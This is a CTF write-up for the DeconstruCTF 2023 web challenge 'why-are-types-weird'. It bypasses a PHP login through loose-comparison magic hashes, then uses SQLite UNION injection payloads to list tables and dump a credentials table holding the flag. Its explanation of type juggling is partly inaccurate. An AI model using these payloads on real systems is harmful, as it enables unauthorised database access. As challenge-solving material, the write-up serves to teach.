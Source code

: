 ```yaml
---
title: DeconstruCTF 2023 - why-are-types-weird
date: Sun Aug  6 12:03:52 PM +04 2023
categories: [Writeup]
tags: [ctf,deconstructf,deconstructf2023,web,sqli,php,hash-collision]
---
```


## Description

Jacob is making a simple website to test out his PHP skills. He is certain that his website has absolutely zero security issues.

Find out the fatal bug in his website.

## Solution

After opening instance we are given a login form, trying simple SQLi injection doesnt work. So I decided to take a look at source code.

```html
<a href="source.php">View login source</a>
```

0w0 source.php?

```php
<?php
if (isset($_GET['but_submit'])) {
    $username = $_GET['txt_uname'];
    $password = $_GET['txt_pwd'];
    if ($username !== "admin") {
        echo "Invalid username";
    } else if (hash('sha1', $password) == "0") {
        session_start();
        $_SESSION['username'] = $username;
        header("Location: admin.php");
    } else {
        echo "Invalid password";
    }
}
```

Nice. Attack vector is now clear. Username must be admin and hash of password should equal 0. Logically speaking this is impossible, but since we are in PHP... 

`($username !== "admin")` This is safe comparison<br>
`(hash('sha1', $password) == "0")` This isnt. Notice `==`. The method is called [Type  Juggling](https://www.php.net/manual/en/language.types.type-juggling.php)

When PHP compares two strings, it compares the characters of the strings, one by one. The first character of "0e..." (hash) is "0", and the first character of "0" is also "0". Therefore, the strings are equal, even though they represent different numbers.

Use any SHA-1 value from [Magic hashes – PHP hash "collisions"](https://github.com/spaze/hashes/blob/master/sha1.md) with username "admin" to login.

After login we are redirected to `Admin Panel` where we can search for users. Quick recon shows user with id 3 has the flag, but the flag is fake! I tried enumerating up till 30 ids, but nothing. Nor did id of 0 work. So there must be something else.

If we enter number + `'` (quote) we are given an error.

```
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "'" in /var/www/html/read_details.php on line 8
```

From the error we learned that SQLi is possible and DBMS is SQLite3.

Navigating to [PayloadAllTheThings - SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) gives us injections we could try.

We need to discover if there are other tables or not, but first we need to match columns count with UNION. Logically we see 3 fields so I tried `1 UNION SELECT NULL,NULL,NULL` and got an extra empty row meaning UNION needs 3 fields.

Tables:
```
1 UNION SELECT NULL,NULL,group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

>>> users,power_users
```

Table Columns:

```
1 UNION SELECT NULL,NULL,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='power_users'

>>> CREATE TABLE power_users ( id integer not null constraint power_users_pk primary key autoincrement, username varchar(10), password varchar(80) )
```

Rows From "power_users":
```
1 UNION SELECT * FROM power_users

>>> 2 | admin | dsc{tYp3_juGgl1nG_i5_cr4zY}
```

> Flag: dsc{tYp3_juGgl1nG_i5_cr4zY}
{: .prompt-tip }